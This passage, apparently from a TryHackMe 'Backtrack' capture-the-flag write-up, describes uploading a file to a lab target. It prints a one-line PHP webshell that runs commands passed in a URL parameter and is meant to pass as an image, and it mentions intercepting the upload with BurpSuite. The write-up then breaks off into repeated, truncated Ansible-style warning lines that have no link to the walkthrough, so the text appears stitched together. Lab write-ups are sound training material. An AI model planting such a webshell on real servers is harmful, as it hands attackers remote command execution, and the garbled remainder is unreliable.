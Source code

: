 ![4](/assets/img/tryhackme/ctf/backtrack/4.png)

I decide to craft a simple php webshell and try to disguise it as an image :

```shell
$ cat wbshll.php
<?php system($_GET['cmd']); ?>
```

The simple upload obviously doesn’t work so I tried intercepting the request using **BurpSuite** :


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
